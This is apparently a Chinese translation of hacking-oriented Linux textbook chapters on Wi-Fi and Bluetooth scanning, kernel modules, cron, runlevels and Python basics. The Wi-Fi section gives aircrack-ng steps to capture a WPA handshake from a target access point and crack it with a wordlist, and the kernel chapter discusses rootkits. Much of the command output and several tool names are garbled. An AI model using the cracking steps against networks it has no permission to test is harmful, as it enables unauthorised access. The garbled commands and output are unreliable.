我们将从 `Wi-Fi` 开始。在本节中，我将向你展示如何发现、检查和连接 `Wi-Fi` 接入点。在在此之前，让我们过一遍基本的 `Wi-Fi` 术语和技术，以帮助你更好地理解本章中许多查询的输出结果：

- **AP (接入点)**：这是无线用户连接以访问互联网的设备。
- **ESSID (扩展服务标识符)**：这与我们在第 3 章讨论的 `SSID` 相同，但用于无线局域网中的多个 `AP`。
- **BSSID (基本服务标识符)**：这是每个 `AP` 的唯一标识符，等于设备的 `MAC` 地址。
- **SSID (服务标识符)**：这是网络的名称。
- **通道 (Channels)**：`Wi-Fi` 可以在 14 个通道中的任何一个上运行（1 到 14）。在美国，`Wi-Fi` 限制在第 1 到 11 通道。
- **功率 (Power)**：你离 `Wi-Fi` `AP` 越近，功率越大，越容易连接。
- **安全性 (Security)**：原始的等效加密（`WEP`）存在缺陷。其继者是无线保护访问（`WPA`），它更安全。随后是 `WPA2` 共享密钥（`WPA2-PSK`），它更安全。此外还有 `WPA2` 企业级版。
- **模式 (Modes)**：`Wi-Fi` 可以以三种模式之一运行：管理（managed）、主设备（master）或监听（monitor）。
- **无线范围 (Wireless range)**：高增益天线可以将范围扩大到 20 英里。
- **频率 (Frequency)**：`Wi-Fi` 设计在 2.4 GHz 和 5 GHz 上运行。

## 基础无线命令

在第 3 章中，你被介绍了 Linux 基础网络命令 `ifconfig`，它可以列出每个网络接口的一些统计信息。让我们再次查看运行 `ifconfig` 的结果（请注意，如果你是从虚拟机运行的，你需要一个外部 `USB` `Wi-Fi` 适配器）。

```
kali> ifconfig

eth Linkencap:EthernetWaddr 0:0c:29:ba:82:0

addr:192.168.1.131 Bcast:192.168.1.255 Mask:255.255.255.0

--snip

io Linkencap:local Loopback

addr:127.0.0.1 Mask:255.255.255.0

w The Wi-Fi 接口在这里显示为 wlan0。在 Kali 中，无线接口通常标记为 wlanX，其中 X 代表接口的数量。换句话说，系统的 Wi-Fi 适配器是 wlan0，第二个是 wlan1，以此此类推。

eth0 no wireless extensions

wlan0 
```

我们可以发现任何接口关联了什么，以及它的发射功率是多少。从这个示例可以看出，`wlan0` 处于连接所需的模式，但尚未连接到任何网络。一旦无线接口连接到 `Wi-Fi` 网络，我们将再次回到这里。

如果你想查看你的无线接口及其统计信息，Linux 有一个类似于 `ifconfig` 的专用无线命令。该命令是 `iwconfig`。运行它时，会显示你的无线接口和关键数据：

```
kali> iwconfig

lo no wireless extensions

wlan0 IEEE 802.11bg ESSID:off/any

Mode:Managed Access Point:Not-Associated Tx-Power=20 dBm
```


Retry limit:7 RTS thr:off Fragment thr:off

Encryption key:off

Power Management:off

如果你不确定连接哪个 Wi-Fi AP，可以使用 `iwlist` 命令查看你的网卡可以到达的所有无线接入点。`iwlist` 的语法如下：

```
iwlist interface action
```

你可以对 `iwlist` 执行多个操作。出于我们的目的，我们将使用 `scan` 来查看区域内的所有 Wi-Fi AP。

```
kali> iwlist wlan0 scan
```

--snip--

此命令的输出应包含你无线接口范围内的所有 Wi-Fi AP（热点），以及每个 AP 的关键数据，例如 AP 的 MAC 地址、其运行的通道和频率、质量、信号电平、是否启用加密以及其 SSID。

为了进行任何形式的破解，你将需要目标 AP 的 MAC 地址 (`BSSID`)、客户端的 MAC 地址（另一个无线网卡）以及 AP 运行的通道，因此这些是很有价值的信息。

另一个在管理 Wi-Fi 连接时非常有用的命令是 `nmcli`（网络管理器命令行界面）。为网络接口（包括无线网络接口）提供高级接口的 Linux 守护进程被称为 *network manager*（网络管理器）。通常，Linux 用户通过其图形化用户界面熟悉该守护进程，但也可以从命令行使用它。

我们可以使用 `nmcli` 命令查看你附近的 Wi-Fi AP 及其数据，就像我们使用 `iwlist` 一样，但此命令带给了我们更多信息。我们使用的格式为 `nmcli dev networktype`，其中 `dev` 是 devices 的缩写，类型（在此情况下）是 wifi，所以：

```
kali nmcli dev wifi
```

| SSID | MODE | CHAN | RATE | SIGNAL BARS SECURITY |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Hackers-Arise | Infra | 1 | 54 Mbits/s | 100 | WPA1 WPA2 |
| Xfinity | Infra | 1 | 54 Mbits/s | 75 | WPA2 |
| TPV1 | Infra | 11 | 54 Mbits/s | 44 | WPA1 WPA2 |

--snip--

除了显示范围内的 Wi-Fi AP 及其关键数据（包括 SSID、模式、通道、信号强度和设备上启用的安全协议）外，我们还可以使用 `nmcli` 连接到 AP。连接 AP 的语法如下：

```
nmcli dev connect AP-SSID password Apppassword
```

因此，根据我们第一个命令的结果，我们知道有一个 SSID 为 Hackers-Arise 的 AP。我们也知道它具有 WPA1 WPA2 安全性（这意味着 AP 能够同时使用旧的 WPA1 和较新的 WPA2），这意味着我们必须提供密码才能连接网络。幸运的是，由于这是我们的 AP，我们知道密码是 12345678，所以我们可以输入以下：

```
kali> nmcli dev wifi connect Hackers-Arise password 12345678

wlan0' successfully activated with '39a45bf4-8a44-36f8-49eda6cb530'
```

在无线 AP 上尝试此操作，运行命令然后当你成功连接到该无线 AP 后，运行 `ifconfig` 查看发生了什么变化。这里是我连接到 Hackers-Arise 的输出：

```
kali> ifconfig

lo no wireless extensions

w0 IEEE 802.11b

SSID:"Hackers-Arise"

Mode:Managed Frequency:2.452GHz Access Point:00:25:9C:97:4F:48

Bit Rate=32 Mbps Tx-Power=20dbm

Retry short list:7 RTS thrsh:off Fragment thrsh:off

Encryption key:off

Power Management:off

Link Quality=64/70 Signal level=-46 dbm

Rx invalid:0 Rx coll:0 Rx frag:0

Tx excessive retries:0 Invalid mis:13 Missed beacon:0

eth0 no wireless extensions
```

注意，如果 `ifconfig` 显示 SSID 为 "Hackers-Arise" 且 AP 运行频率为 2.452 GHz。那么在 Wi-Net 网络中，多个 AP 可能属于同一个网络，可能有很多 AP 组成 Hackers-Arise 网络。MAC 地址 00:25:9C:97:4F:48 正如你所想的那样，是我连接的 AP 的 MAC 地址。Wi-Fi 网络使用什么种安全类型、运行在 2.4 GHz 还是 5 GHz、其 SSID 是什么以及 AP 的 MAC 地址是什么，都是 Wi-Fi 破解所需的关键信息。现在你已经了解了基础命令，让我们开始一些破解。

## 使用 aircrack-ng 进行 Wi-Fi 侦测

新黑客最流行的利用方法之一就是破解 Wi-Fi 访问点。如前提到的，在考虑攻击 Wi-Fi AP 之前，你需要目标 AP 的 MAC 地址 (`BSSID`)、客户端的 MAC 地址以及 AP 运行的通道。

我们可以从 `aircrack-ng` 套件中获取所有信息并使用更多工具。我之前提到过几次这套 Wi-Fi 破解工具，现在是时候真正使用它了。这套工具包含在 Kali 的每一个版本中，所以你不需要下载或安装任何内容。

为了有效使用这些工具，你需要将无线网卡切换到**监听模式**（monitor mode），以便网卡可以看到经过它的所有流量。通常情况下，网卡只会捕获特定发给该网卡的流量。监听模式类似于有线网络中的混杂模式（promiscuous mode）。

要将无线网卡设置为监听模式，使用 `airmon-ng` 命令：

```
sudo airmon-ng start wlan0
```

这会将网卡名称更改为 `wlan0mon`。现在你可以使用 `airodump-ng` 来扫描附近的网络：

```bash
sudo airodump-ng wlan0mon
```

你将看到一列无线 AP，以及它们的 BSSID、SSID、CH（通道）、ENC（加密方式）等。如果你只想针对特定的 AP，可以使用 `--bssid` 过滤：

```bash
sudo airodump-ng --bssid [BSSID] wlan0mon
```

一旦你发现了目标 AP，就可以打开另一个窗口来捕获该 AP 的握手包：

```bash
sudo airodump-ng --bssid [BSSID] -w [filename] wlan0mon
```

这会创建一个以 `[filename]` 开头的文件。当看到右上出现 `WPA handshake` 时，说明你成功捕获了握手包。现在，你可以使用 `aircrack-ng` 来破解密码：

```bash
sudo aircrack-ng -w [wordlist] [filename]-0.cap
```


## 检测并连接蓝牙

如今，几乎每个小巧设备、移动设备和系统都内置了蓝牙，包括我们的电脑、智能手机、平板电脑、扬声器、游戏控制器、键盘以及许多其他设备。能够破解蓝牙可能会导致设备上任何信息的泄露、对设备的控制，以及向设备发送和接收意外信息的能力等。

为了利用这项技术，我们需要了解它的工作原理。对蓝牙的深入理解超出了本书的范畴，但我将为你提供一些基础知识，帮助你扫描并连接蓝牙设备，为攻击它们做准备。

## 蓝牙如何工作

蓝牙是一种通用的低功率近场通信协议，工作在 2.4 GHz 到 2.485 GHz 之间，使用扩频技术和每秒 1600 次的跳频（这种频率跳变是一种安全措施）。它由瑞典爱立信公司于1994年开发，并以 10 世纪丹麦国王哈拉德·“蓝牙”·戈尔森命名（注意，瑞典和丹麦在 10 世纪是一个国家）。

蓝牙规范的最小覆盖范围为 10 米，但制造商在设备中实现的上限范围没有限制。许多设备的范围可达 100 米。通过特殊的天线，该范围可以进一步扩展。

连接两个蓝牙设备被称为“配对”。几乎任何两个蓝牙设备都可以相互连接，但它们只有在处于“可发现模式”时才能配对。处于可发现模式的蓝牙设备会传输以下信息：

- 名称
- 类
- 服务列表
- 技术信息

当两个设备配对时，它们会交换一个密钥或链路密钥。每个设备都会存储此链路密钥，以便在未来的配对中识别对方。每个设备都有一个唯一的 48 位标识符（类似 MAC 地址），并且通常有一个由制造商分配的名称。这些都是我们识别和访问设备时的有用数据。

## 蓝牙扫描与侦察

Linux 有一个蓝牙协议栈的实现 `BlueZ`，我们将使用它来扫描蓝牙信号。大多数 Linux 发行版（包括 Kali Linux）都默认安装了它。如果你的系统没有安装，你通常可以通过以下命令在仓库中找到它：

```
sudo sudo apt install bluez
```

`BlueZ` 拥有许多用于管理和扫描蓝牙设备的简单工具，包括以下这些：

- `hcitfig`: 该工具的操作方式与 Linux 中的 `ifconfig` 非常相似，但针对的是蓝牙设备。如列表 14-1 所示，我用它来启动蓝牙接口并查询设备的规格。
- `hcitool`: 该查询工具可以为我们提供设备名称、设备 ID、设备类和设备时信息，使设备能够同步工作。
- `hcidump`: 该工具使我们能够嗅蓝牙通信，这意味着我们可以捕捉通过蓝牙信号发送的数据。

蓝牙扫描和侦察的第一步是检查我们使用的系统蓝牙适配器是否被识别并启用，以便我们可以将其用于其他设备。我们可以使用内置的 `BlueZ` 工具 `hcitfig` 来完成，如列表 14-1 所示。

```
kali> sudo hcitfig

hci0: Type: BR/EDR Bus: USB

BD Address: AE:60:58:F1:37 ACL MTU: 310:10 SCO: 64:8

UP RUNNING SCAN INQUIRY

RX bytes: 131433 acl5: sco:10519 errors:0

TX bytes: 42881 acl5: sco:5081 errors:0
```

列表 14-1：扫描蓝牙设备

如你所见，我的蓝牙适配器被识别，MAC 地址为 10:AE:60:58:F1:37。该适配器被命名为 `hci0`。

下一步是检查连接是否启用，我们也可以通过向 `hcitfig` 提供名称和命令来实现：

```
kali> sudo hcitfig hci0 up
```

如果命令运行成功，我们不应该看到任何输出，只有一个提示符。

很好，`hci0` 已经启动并就绪了！让它工作起来吧。

## 使用 hcitool 扫描蓝牙设备

现在我们的适配器已经启动，我们可以使用 `BlueZ` 套件中的另一个工具 `hcitool`，它用于扫描范围内的其他蓝牙设备。

让我们首先使用该工具的扫描功能来查找正在发送发现信标（意味着它们处于发现模式）的蓝牙设备，即使用列表 14-2 中的简单扫描命令。

```
kali> sudo hcitool scan

Scanning...

72:6E:46:65:72:66 ANDROID BT

22:C5:96:08:SD:32 SCH-1535
```

列表 14-2：扫描发现模式下的蓝牙设备

如输出所示，在我的系统中，`hcitool` 找到了两个设备：ANDROID BT 和 SCI-I535。你的输出可能会根据周围的设备而有所不同。为了测试，请尝试将你的手机或其他蓝牙设备设置为发现模式，看看它是否能被扫描到。

现在让我们用查询来收集更多关于检测到的设备的信息：

```
kali> sudo hcitool inq

Inquiring...

24:C5:96:08:50:32      clock offset: 00000000      class: 0x1904

24:C5:96:08:50:32      clock offset: 00000000      class: 0x1904
```


*(注：此处原文存在大量 OCR 错误和重复描述，已根据逻辑进行了清理并翻译)*

此输出表明 MAC 地址为 `76:6E:46:63:72:66` 的设备在范围内且可访问。这是一个非常有用的知识，因为在考虑黑客攻击之前，我们必须知道设备是否可访问。

## 总结

无线设备代表了连接和攻击的未来。在攻击这些系统的第一步中，Linux 开发了专门的命令来扫描和连接 Wi-Fi AP。`aircrack-ng` 无线攻击工具包包含了 `hcmon-ng` 和 `airodump-ng`，它们允许我们扫描并从范围内的无线设备收集关键信息。BlueZ 工具包包含 `hcconfig`、`hcitool` 以及其他能够扫描和收集信息的工具，这些对于攻击范围内的蓝牙设备是必要的。它还包含了许多其他值得探索的工具。

# 练习

- 1. 使用 `ifconfig` 检查你的网络设备。注意任何无线扩展。
- 2. 运行 `iwconfig` 并注意任何无线网络适配器。
- 3. 使用 `iwlist` 检查范围内有哪些 Wi-Fi AP。
- 4. 使用 `nmcli` 检查范围内有哪些 Wi-Fi AP。你认为 `nmcli` 还是 `iwlist` 更实用直观？
- 5. 使用 `nmcli` 连接你的 Wi-Fi AP。
- 6. 使用 `hcconfig` 启用你的蓝牙适配器，并使用 `hcitool` 扫描附近的可发现蓝牙设备。
- 7. 使用 `l2ping` 测试这些蓝牙设备是否在可范围内。

# 15 管理 Linux 内核和可加载内核模块

所有的操作系统至少由两个主要部分组成。其中第一个也是最重要的是*内核*。

内核位于操作系统的中心，控制着操作系统执行的一切，包括管理内存、控制 CPU 甚至控制用户在屏幕上看到的内容。操作系统的第二个元素通常被称为*用户态*，包含了几乎所有其他内容。

内核被设计为一个受保护或特权的区域，只有 root 或其他特权账户才能访问。这样做是有原因的，因为访问内核可以提供对系统的几乎不受限制。因此，大多数操作系统只允许用户和服务访问用户态，用户可以在用户态下访问他们需要的几乎任何内容，而不会控制操作系统。

访问内核允许用户更改操作系统的工作方式、外观和感觉。它还允许他们导致操作系统崩溃使其无法工作。尽管存在这种风险，在某些情况下，管理员出于操作和安全考虑必须非常小心地访问内核。

在本章中，我们将研究如何更改内核的工作方式以及向内核添加新模块。可能无需多言，如果黑客可以更改目标的内核，他们就可以控制整个系统。此外，攻击者可能需要为了某些攻击更改内核的功能，例如中间人攻击（MITM），在这种攻击中，黑客将自己置于客户端和服务器之间，窃监听或更改通信。首先，我们将仔细查看内核结构及其模块。

## 什么是内核模块？

内核是你操作系统的中枢神经系统，控制着它执行的一切，包括管理硬件组件之间的交互以及启动必要的服务。内核运行在你看到的用户应用程序和运行一切的硬件（如 CPU、内存和硬盘）之间。

Linux 是一个单内核内核，允许添加内核模块。此类模块可以从内核中添加和删除。内核有时需要更新，这可能涉及安装新的设备驱动程序（如显卡、蓝牙设备或 USB 设备）、文件系统驱动程序甚至系统扩展。这些驱动程序必须嵌入内核中才能完全发挥作用。在某些系统中，为了添加驱动程序，你必须重新构建、编译并重启整个内核，但 Linux 具备在不通过该过程向内核添加某些模块的能力。这些模块被称为可加载内核模块，即 LKMs。

LKMs 必须需要访问内核的最低层级，这使得它们成为黑客眼中极具脆弱性的目标。一种特殊的恶意软件——根内核（rootkit）会嵌入到操作系统的内核中，通常通过这些 LKMs 实现。如果恶意软件嵌入内核中，黑客就可以完全控制整个操作系统。

如果黑客可以让 Linux 管理员向内核加载新模块，黑客不仅可以获得对目标系统的控制权（因为他们是在操作系统的内核级别运行），还可以控制目标系统在进程、端口、服务、磁盘空间以及你能想象的几乎任何其他方面的报告内容。

所以，如果黑客能够成功诱导 Linux 管理员安装一个嵌入了 rootkit 的视频或其他设备驱动程序，黑客就可以完全控制系统和内核。这是大多数隐险的 rootkit 利用 Linux 及其他操作系统的方式。

理解 LKMs 是成为一名高效的 Linux 管理员以及一名非常高效且隐蔽的黑客的关键。

让我们来看看如何良好地或糟糕地管理内核。

## 检查内核版本

理解内核的第一步是检查你的系统正在运行什么。至少有两种方法可以做到这一点。首先，我们可以输入：

```
kali uname -a

Linux kali 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1
```

输出告诉我们内核版本、架构和构建日期。它还告诉我们内核是否为 SMP（对称多处理）以及使用了何种抢占模型。

检查内核版本的另一种方法是查看 `/proc/version` 文件：

```bash
cat /proc/version
```

输出与 `uname -a` 命令相似，但它包含了构建内核时使用的编译器。

## 使用 sysctl 进行调优

`sysctl` 命令用于运行时查看和修改内核参数。这允许你在无需重启的情况下调优网络性能、内存管理和其他子系统。要查看所有内核参数可以使用：

```bash
sysctl -a
```

要查找特定参数可以使用 grep：

```bash
sysctl -a | grep ip_forward
```

要在运行时更改参数，使用 `-w` 标志：

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

注意，使用 `sysctl` 进行的更改在重启后会丢失。要使更改永久化，你必须编辑 `/etc/sysctl.conf` 文件。

### 防止欺骗攻击

```ini
#net.ipv4.conf.default.rp_filter=1
#net.ipv4.conf.all.rp_filter=1

# 取消下一行的注释以启用 TCP/IP SYN
# 访问 http://lwn.net/Articles/277146

# 注意：这可能影响 IPv6 TCP 会话
#net.ipv4.tcp_syncookies=1

访问 http://lwn.net/Articles/277146/
# 取消下一行的注释以启用 IPv4 数据包转发
#net.ipv4.ip_forward=1

只需删除此处的注释 (#) 即可启用 IP 转发。
从操作系统加固的角度来看，你可以通过添加行 `net.ipv4.icmp_echo_ignore_all=1` 来禁用 ICMP 回显请求，这会让黑客想要发现你的系统变得更加困难——但并非不可能。添加该行后，你需要运行命令 `systemctl restart`。

## 管理内核模块

Linux 至少有两种方法管理内核模块。较旧的方法是使用一组围绕 `insmod`（`insmod` 代表插入模块）构建的命令，用于处理模块。第二种方法是使用 `modprobe` 命令，我们将在本章稍后介绍。在这里，我们使用 `insmod` 工具集中的 `lsmod` 命令列出内核中已安装模块：

```
kali> lsmod

Size Used by

nfnetlink_queue 20480 0

fnetlink_log 201480 0

fnetlink 16384 2 fnnetlink_log, fnnetlink_queue

bluetooth 516096 0

rfkill 28672 2 bluetooth
```

-- 省 --

如你所见，`lsmod` 命令列出了所有内核模块以及关于它们的大小和其他哪些模块可能使用它们的信息。例如，`nfnetlink` 模块——一种用于内核与用户空间之间通信的消息协议——大小为 16,384 字节，被 `nfnetlink_log` 模块和 `fn_netlink_queue` 模块使用。

从 `insmod` 工具集中，我们可以使用 `insmod` 加载或插入模块，使用 `rmmod` 移除模块（`rmmod` 代表移除模块）。这些命令并不完美，可能不会考虑模块依赖关系，因此使用它们可能会导致你的内核不稳定或不可用。因此，现代 Linux 发行版现在添加了 `modprobe` 命令，它会自动加载依赖项，并使加载和移除内核模块的风险更低。稍将介绍 `modprobe`。首先，让我们看看如何获取更多关于模块的信息。

## 使用 modinfo 查找更多信息

要了解任何内核模块，我们可以使用 `modinfo` 命令。该命令的语法非常简单：`modinfo` 后跟着你想要了解的模块名称。例如，如果你想获取之前运行 `lsmod` 命令时看到的 `bluetooth` 内核模块的基本信息，你可以输入：

```
> modinfo bluetooth

filename: /lib/modules/4.19.0-kali-amd64/kernel/net/bluetooth/bluetooth.ko

alias: net-pf-31

license: GPL
```


```
version: 2.22

description:Bluetooth Core 2.22

author: Marcel Holman <cmamel@holtmann.com>

srcversion: 411D7802CC178394AEOD188

depends: rfkill, ecdh_generic, crc16

intree: 6.6.9-amd64 SMP prep mod unload modifications

arm: disable_esco: Disable ESCO connection creation (bool)

arm: disable_ertm: Disable enhanced retransmission mode (bool)
```

如你所见，`modinfo`命令揭示了该内核模块的重要信息，这些信息对于在系统上使用蓝牙是必要的。注意，在许多其他内容中，它列出了模块依赖项：`rfkill`、`ecdh_generic`和`crc16`。依赖项是蓝牙模块正常工作之前必须安装的模块。

通常，这在排查为什么特定硬件设备无法工作时非常有用。除了注意依赖关系，你还可以获取模块版本以及其开发的内核版本信息，然后确保它们与你正在运行的版本匹配。

## 使用 modprobe 添加和删除模块

大多数 Linux 发行版（包括 Kali Linux）都包含了用于 LKM（加载内核模块）管理的`modprobe`命令。要向内核添加模块，你使用带有`-a`（add）开关的`modprobe`命令，如下：

```
> sudo modprobe -a module name
```

要移除模块，使用`modprobe`配合`-r`（remove）开关后跟模块名称：

```
kali> sudo modprobe -r module to be removed
```

使用`modprobe`代替`insmod`的主要优势是`modprobe`理解依赖关系、选项以及安装和移除程序，并在做出更改之前考虑所有这些因素。因此，使用`modprobe`添加和移除内核模块更容易、更安全。

## 插入和移除内核模块

让我们尝试插入和移除测试模块来帮助你熟悉操作。假设你刚刚安装了一个新的显卡，需要为它安装驱动程序。记住，设备驱动程序通常直接安装到内核中，以便其获得正常运行所需的权限。这也使得设备成为恶意黑客安装 rootkit 或监听设备的温床。

为了演示，我们要添加一个名为`Arise`的新驱动。你可以通过输入以下命令将其添加到内核：

```
kali> sudo modprobe -a Arise
```

为了测试模块是否加载成功，你可以运行`dmesg`（它会打印内核缓冲区）并过滤"video"：

```
kali> dmesg | grep video
```

然后，要移除它，可以使用`-r`开关：

```
kali> sudo modprobe -r Arise
```

## 总结

`modprobe`命令是管理内核模块的关键，因为它会自动处理依赖关系。虽然`insmod`和`rmmod`可用，但它们由于没有考虑这些依赖关系可能会导致不稳定。`modinfo`提供有关模块的详细信息，包括它们的关系和版本信息，这对于故障排除和兼容性检查至关重要。

## 练习题

- 1. 检查内核版本。
- 2. 列出模块。
- 3. 启用 IP 转发。
- 4. 编辑`sysctl.conf`。
- 5. 列出模块。

| M | H | DOM | MON | D | USER | COMMAND |
|---|---|---|---|---|---|---|
| 30 | 2 | * | * | 1-5 | root | /root/myscanningcript |

列表 16-1：调度命令的格式

`crontab`文件为你提供了这些列说明。请注意，第一个字段提供分钟（30），第二个字段提供小时（2），第五个字段提供日期（1-5，或周一至周五），第六个字段定义用户（root），第七个字段是脚本的路径。第三和第四字段包含星号（*），因为我们希望脚本无论哪一天或哪个月，都在周一到周五每天运行。

在列表 16-1 中，第五个字段通过数字之间的连字符（-）定义了周范围。如果你想在每周的多个不连续日期执行脚本，可以使用逗号（,）将这些日期分隔。因此，周二和周四就是 2,4。

```bash
kali> crontab -e

Select an editor. To change later, run 'select-editor'.

1. /bin/nano      <----easiest

2. /usr/bin/mcedit

3. /usr/bin/vim.basic

4. /usr/bin/vim.gtk

5. /usr/bin/vim.tiny

Choose 1-5 [1]:
```

第一次运行此命令时，它会询问你想使用哪种编辑器。默认是`/bin/nano`，它提示你这是最容易的选项。如果你选择此选项，终端将直接打开`crontab`。

另一个选项（通常对 Linux 新手来说更好的选择）是直接用你喜欢的文本编辑器打开`crontab`，你可以这样操作：

```bash
kali> mousepad /etc/crontab
```

我使用了这个命令在`mousepad`中打开了`crontab`。你可以在列表 16-2 中看到`/etc/crontab`的片段。

```bash
# /etc/crontab: system-wide crontab

# Unlike any other crontab, you don't have to run the 'crontab'

# command to install the new version when you edit this file

# and files in /etc/cron.d. These files also have username fields,

# which no other crontabs do.
```

```bash
SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# h dom mon dow user command
17 * * * * root cd && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron && (cd && run-parts)
47 6 * * * root test -x /usr/sbin/anacron && (cd && run-parts)
52 6 1 * * root test -x /usr/sbin/anacron && (cd && run-parts)
#
```

列表 16-2：文本编辑器中的`crontab`文件

现在，要设置一个定期调度任务，你只需要输入新行并保存文件即可。

## 调度备份任务

让我们从系统管理员的角度来看这个工具。作为系统管理员，你通常想在下班后运行所有文件的备份，此时系统未被使用且资源可用。（系统备份通常需要在业务工作期间需求紧张的系统资源。）理想的时间可能是周末的中午。与其在周六晚上/周日凌晨 2:00 登录（我确定你那个时候有其他优先事项），你可以安排备份在那个时间自动开始，即使你当时不在电脑前。

请注意，小时使用的是 24 小时制，而不是 AM 和 PM，例如，下午 1:00 是 13:00。此外，请注意星期（DOW）从周日（0）开始，到周六（6）结束。

要创建一个作业，你只需要通过按规定的格式添加新行来编辑`crontab`文件。因此，如果你想使用名为"backup"的用户账户创建一个定期备份作业，你将为系统编写一个备份脚本并将其保存为`/bin`目录下的`systembackup.sh`，然后通过向`crontab`添加以下行，将调度此备份在每周周六晚上/周日凌晨 2:00 运行：

```bash
00 2 * * 0 backup /bin/systembackup.sh
```


请注意，通配符（`*`）用于表示“任意”，用它来代替日期、月份或星期的数字被读作“所有”日期或月份。如果你读取这一行，它的意思是：

- 1. 在每小时的开头（`00`），
- 2. 在第二个小时（`2`），
- 3. 在月份的任意一天（`*`），
- 4. 在任意月份（`*`），
- 5. 在周日（`0`），
- 6. 作为备份用户，
- 7. 执行脚本 `/bin/systembackup.sh`。

`cron` 守护进程将在每月的周日凌晨 `2:00` 执行该脚本。

如果你只想让备份在每月 `15` 号运行，你只需将通配符改为 `15`。如果你想让它在 `15` 号和 `30` 号运行，则应使用 `15,30`。`cron` 守护进程将在这些特定日期执行该脚本。

# Linux 运行级别 (Runlevels)

Linux 拥有多个运行级别，用于指示启动时应该启动哪些服务。例如，运行级别 `1` 是单用户模式，网络等服务不会在运行级别 `1` 中启动。`rc` 脚本的运行取决于所选的运行级别：

- `0` 关机系统
- `1` 单用户/极简模式
- `2–5` 多用户模式
- `6` 重启系统

# 向 rc.d 添加服务

你可以使用 `update-rc.d` 命令在启动时为 `rc.d` 脚本添加服务。此命令允许你从 `rc.d` 脚本中添加或删除服务。`update-rc.d` 的语法非常简单；你只需要列出命令，后面跟着脚本名称，然后是要执行的操作，如下所示：

```
kali> update-rc.d 脚本或服务的名称 remove|defaults|disable|enable
```

为了说明如何使用 `update-rc.d` 启动系统，假设你总是希望 PostgreSQL 数据库随系统启动（我们用于压力测试和破解结果的框架）。你会使用 `update-rc.d` 在你的 `rc.d` 脚本中添加一行，使其在每次启动系统时都运行。

在操作之前，让我们检查一下系统中是否已经运行了 PostgreSQL。你可以使用 `ps` 命令并将其传递给 `grep` 过滤器来查找 PostgreSQL，如下：

```
kali> ps aux | grep postgresql
```

此输出告诉我们，`ps` 找到的唯一运行的 PostgreSQL 进程是我们运行它的它的命令，因此目前系统中没有运行 PostgreSQL 数据库。

现在，让我们更新 `rc.d` 以让 PostgreSQL 在启动时自动运行：

```
kali> update-rc.d postgresql defaults
```

这会在 `rc.conf` 文件中添加该行。你需要重启系统使更改生效。完成后，让我们再次使用 `ps` 命令配合 `grep` 查找 PostgreSQL 进程：

```
kali> ps aux | grep postgresql
```

如你所见，PostgreSQL 在你无需手动输入任何命令的情况下运行。它会在系统启动时自动启动，并准备就绪供你的 Metasploit 使用！

# 通过 GUI 向启动项添加服务

如果你更习惯于通过 GUI 在启动时时添加服务，可以从 Kali 仓库下载基础的基于 GUI 的工具 `rconf`，如下：

```
kali> sudo apt install rconf
```

安装完成后，你可以通过输入以下内容启动 `rconf`：

```
kali> rconf
```

这将打开一个类似于图 16-1 的简单 GUI。然后你可以浏览所有可用服务，选择你想在启动时运行的服务，并点击 OK。

图 16-1：用于向启动项添加服务的 `rconf` GUI

在此图中，你可以看到列出的 `mariadb` 服务。按空格键选择此服务，按 TAB 键高亮 `<ok>`，然后按回车键。下次启动 Kali 时，MariaDB 将自动启动。

## 总结

系统管理员和黑客经常需要计划服务、脚本和工具定期运行。Linux 允许你使用 `cron` 守护进程（它从 `cron` 表运行这些作业）安排定期运行任何脚本或工具。此外，你可以使用 `update-rc.d` 命令或基于 GUI 的工具 `rcconf` 更新 `rc.d` 脚本，以便让服务在启动时自动运行。

# 练习

- 计划你的 `MySQLscanner.sh` 脚本在每周三下午 `3:00` 运行。
- 计划你的 `MySQLscanner.sh` 脚本在 `4` 月、`6` 月和 `8` 月的每月第 `10` 天运行。
- 计划你的 `MySQLscanner.sh` 脚本在每周二至周四上午 `10:00` 运行。
- 使用快捷方式计划你的 `MySQLscanner.sh` 脚本每天中午运行。
- 更新你的 `rc.d` 脚本，使系统每次启动时运行 PostgreSQL。
- 下载并安装 `rcconf`，并将 PostgreSQL 和 MySQL/MariaDB 数据库设置为启动时运行。

# 17

# PYTHON 脚本基础
# 黑客教程

基础脚本技能对于成为大师黑客至关重要。如果没有培养一些基础脚本技能，一个仅仅使用他人创建工具的初级黑客将沦为“脚本小子”（`script kiddies`）的境界。

## PYTHON 格式化

Python 与其他某些脚本语言的区别在于，格式化在 Python 中至关重要。Python 解释器使用格式化来确定代码如何分组。格式的特定细节并不如保持一致性重要，特别是在你的缩进级别上。

如果你有一组代码以双倍缩进开头，那么你必须在整个代码块中保持双倍缩进一致，Python 才能识别这些代码行属于同一个整体。这与其他编程语言中的脚本不同，在那些语言中，格式化是可选的且是一种最佳实践，但并非强制性的。你在学习和练习过程中会注意到这一点；这是需要记住的！

## 变量

现在，我们来看 Python 中一些更实用的概念。变量是编程中最基础的数据类型之一，你已经在第 8 章的 bash 脚本中遇到过它。简单来说，变量是一个与特定值关联的名称，每你在程序中使用该名称时，它都会调用关联的值，类似于我们在第 7 章中的环境变量。

它的工作原理是：变量名指向存储在内存位置的数据，该位置可能包含任何类型的值，例如整数、实数、浮点数、布尔值（`true` 或 `false` 语句）、列表或字典。我们将在本章简要介绍所有这些。

为了熟悉基础知识，让我们在 `mousepad` 中创建一个简单的脚本（如列表 17 所示），将其保存为 `hackers-arise_greetings.py`。

```python
# /usr/bin/python3

name="OccupyTheWeb"

print("Greetings to " + name + " from Hackers-Arise. The Best Place to Learn Hacking!")
```

列表 17-1: 你的 Python 程序

第一行简单地告诉系统你想使用 Python 解释器来运行此程序，而不是任何其他语言。第二行定义了一个名为 `name` 的变量并给它赋值了一个值（在这种情况下为 `"OccupyTheWeb"`）。你应该将此值改为你的名字。该变量的值是字符串字符数据格式，这意味着内容被包含在引号中，并被视为文本。你也可以在字符串中放入数字，它们会被视为文本，但你将无法在数值计算中使用它们。

第三行创建了一个 `print()` 语句，将 `Greetings to ` 与 `name` 变量中的值连接，随后是来自 `Hackers-Arise. The Best Place to Learn Hacking!` 的文本。`print()` 语句会将你传递给括号内的任何内容显示在屏幕上。

现在，在运行此脚本之前，你需要赋予自己执行权限。使用 `chmod` 命令来完成操作（有关 Linux 权限的更多信息，请参见第 5 章）：

```bash
kali$ chmod 755 hackers-arise_greetings.py
```

